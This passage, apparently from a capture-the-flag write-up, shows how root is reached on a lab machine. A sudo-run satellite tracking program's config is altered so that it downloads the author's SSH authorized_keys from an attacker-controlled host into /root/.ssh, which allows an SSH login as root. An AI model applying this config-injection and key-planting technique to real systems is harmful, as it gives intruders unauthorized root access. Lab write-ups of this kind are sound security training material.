We did it! We managed to get `root` to fetch the file from our `server` and drop it into `/tmp` with the same name.

Now that we’re able to make root modify any file, we’re going to inject our machine’s `authorized_keys` file in order to connect via `SSH` as root.

Config file manipulated:

<br />

```json
{
	"tleroot": "/root/.ssh/",
	"tlefile": "weather.txt",
	"mapfile": "/usr/local/share/sattrack/map.json",
	"texturefile": "/usr/local/share/sattrack/earth.png",
	
	"tlesources": [
		"http://10.10.14.31/authorized_keys"
],
	
	"updatePerdiod": 1000,
	
	"station": {
		"name": "LORCA",
		"lat": 37.6725,
		"lon": -1.5863,
		"hgt": 335.0
	},
	
	"show": [
	],
	
	"columns": [
		"name",
		"azel",
		"dis",
		"geo",
		"tab",
		"pos",
		"vel"
	]
}
```

<br />

Run the program one more time:

<br />

```bash
jovian@jupiter:/usr/local/share/sattrack$ sudo /usr/local/bin/sattrack 
Satellite Tracking System
Get:0 http://10.10.14.31/authorized_keys
tlefile is not a valid file
```

<br />

Receive the GET:

<br />

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.216 - - [27/Mar/2025 22:46:20] "GET /authorized_keys HTTP/1.1" 200 -
```

<br />

And try to connect with SSH as `root`:

<br />

```bash
❯ ssh -i id_rsa root@10.10.11.216
Welcome to Ubuntu 22.04.2 LTS (GNU/Linux 5.15.0-72-generic x86_64)
...[snip]...
root@jupiter:~# id
uid=0(root) gid=0(root) groups=0(root)
root@jupiter:~# cat root.txt
7a41eb357f719f7a2c347d0267xxxxxx
```

<br />
